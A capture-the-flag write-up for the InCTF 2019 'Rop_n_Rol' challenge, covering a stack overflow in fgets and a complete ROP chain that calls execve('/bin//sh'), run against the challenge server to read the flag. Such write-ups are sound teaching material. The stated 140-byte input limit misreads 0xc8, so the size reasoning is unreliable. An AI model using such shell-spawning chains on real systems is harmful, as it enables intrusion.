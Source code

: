 # Rop_n_Rol

>Pwn | 300 points
-----------

## Problem Statement
> Can you hold your rope and get to the moon??  
> nc 13.233.99.37 1008  
> [File](./chall)

## Analysis

* Let's check the binary first
```shell
$ checksec ./chall
[ * ] '/root/ctfs/CTF_Writeups/inctf_2019/rop_n_roll/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
> the above output shows that we can't execute any instructions from stack
* Now let's check if we can get the control of the return instruction

* GDB disassembly looks like
   >    ```gdb
   >     gdb$ disass main
   >     Dump of assembler code for function main:
   >        0x0000000000401cba <+0>:	push   rbp
   >        0x0000000000401cbb <+1>:	mov    rbp,rsp
   >        0x0000000000401cbe <+4>:	sub    rsp,0x20
   >        0x0000000000401cc2 <+8>:	mov    eax,0x0
   >        0x0000000000401cc7 <+13>:	call   0x401c6d <initialize>
   >        0x0000000000401ccc <+18>:	lea    rdi,[rip+0x8e335]        # 0x490008
   >        0x0000000000401cd3 <+25>:	call   0x4116a0 <puts>
   >        0x0000000000401cd8 <+30>:	lea    rdi,[rip+0x8e353]        # 0x490032
   >        0x0000000000401cdf <+37>:	call   0x4116a0 <puts>
   >        0x0000000000401ce4 <+42>:	mov    rdx,QWORD PTR [rip+0xb6abd]        # 0x4b87a8 <stdin>
   >        0x0000000000401ceb <+49>:	lea    rax,[rbp-0x20]
   >        0x0000000000401cef <+53>:	mov    esi,0xc8
   >        0x0000000000401cf4 <+58>:	mov    rdi,rax
   >        0x0000000000401cf7 <+61>:	call   0x411160 <fgets>
   >        0x0000000000401cfc <+66>:	lea    rdi,[rip+0x8e344]        # 0x490047
   >        0x0000000000401d03 <+73>:	call   0x4116a0 <puts>
   >        0x0000000000401d08 <+78>:	mov    eax,0x0
   >        0x0000000000401d0d <+83>:	leave  
   >        0x0000000000401d0e <+84>:	ret    
   >     End of assembler dump.
   >    ```
   

* In the above challenge  the entire stack frame is 32 bytes ie 0x20

    >```gdb
    >   0x0000000000401ceb <+49>:	lea    rax,[rbp-0x20]
    >   0x0000000000401cef <+53>:	mov    esi,0xc8
    >   0x0000000000401cf4 <+58>:	mov    rdi,rax
    >   0x0000000000401cf7 <+61>:	call   0x411160 <fgets>
    >``` 
    > fgets starts to write data from **[rbp-0x20]** but maximum no of characters
    > that fgets can write is **0x8c** ie 140 characters
    > And thats where we can exploit the program

## Solution
* Lets look at the stack
```
Stack map
[rbp-0x20]    [ -- -- -- -- ]
[rbp-0x1c]    [ -- -- -- -- ]
[rbp-0x18]    [ -- -- -- -- ]
[rbp-0x14]    [ -- -- -- -- ]
[rbp-0x10]    [ -- -- -- -- ]
[rbp-0xc]     [ -- -- -- -- ]
[rbp-0x8]     [ -- -- -- -- ]
[rbp-0x4]     [ -- -- -- -- ]
[   bp   ]    [ -- -- -- -- ]
[        ]    [ -- -- -- -- ]
[   ret  ]    [ -- -- -- -- ]
[        ]    [ -- -- -- -- ]
```
* Remember we can only write 140 bytes out of which 32 bytes will be consumed by
the buffer and the base pointer will take up 8 bytes

* And then we will be able to overwrite the return pointer
    >   140 - 32 -8 = 100 bytes
    > we only have 100 bytes for all instructions we want to write 

## Exploit 
* Now its time to write our ROP chain within the givin limits
* [**get_flag.py**](./get_flag.py)

   >    ```python
   >     #!/usr/bin/python2
   >     from struct import pack
   >     p = 'A' * 0x20 + 'B' * 8
   >     p += pack('<Q', 0x0000000000406f80)  # pop rsi ; ret
   >     p += pack('<Q', 0x00000000004b80e0)  # @ .data
   >     p += pack('<Q', 0x00000000004489ec)  # pop rax ; ret
   >     p += '/bin//sh'
   >     p += pack('<Q', 0x0000000000477f51)  # mov qword ptr [rsi], rax ; ret
   >     p += pack('<Q', 0x0000000000406f80)  # pop rsi ; ret
   >     p += pack('<Q', 0x00000000004b80e8)  # @ .data + 8
   >     p += pack('<Q', 0x0000000000443260)  # xor rax, rax ; ret
   >     p += pack('<Q', 0x0000000000477f51)  # mov qword ptr [rsi], rax ; ret
   >     p += pack('<Q', 0x0000000000401796)  # pop rdi ; ret
   >     p += pack('<Q', 0x00000000004b80e0)  # @ .data
   >     p += pack('<Q', 0x0000000000406f80)  # pop rsi ; ret
   >     p += pack('<Q', 0x00000000004b80e8)  # @ .data + 8
   >     p += pack('<Q', 0x0000000000447fb5)  # pop rdx ; ret
   >     p += pack('<Q', 0x00000000004b80e8)  # @ .data + 8
   >     p += pack('<Q', 0x0000000000443260)  # xor rax, rax ; ret
   >     p += pack('<Q', 0x000000000041813f)  # add al, 0x3a ; ret
   >     p += pack('<Q', 0x000000000046d520)  # add rax, 1 ; ret
   >     p += pack('<Q', 0x0000000000481605)  # syscall ; ret
   >     print(p)
   >     ```

* On local system
```shell
    $ (python get_flag.py;cat) |./chal
```
* On shell server
```shell
    $ (python get_flag.py;cat) | nc 13.233.99.37 1008
    Catch your rope to get to your desination
    Give your rope here!
    See ya on moon!
    ls
    chall
    flag
    run.sh
    cat flag
    inctf{Y0ur_R0p3_c4n_b3_533n_fr0m_7h3_M00n}
    exit
```
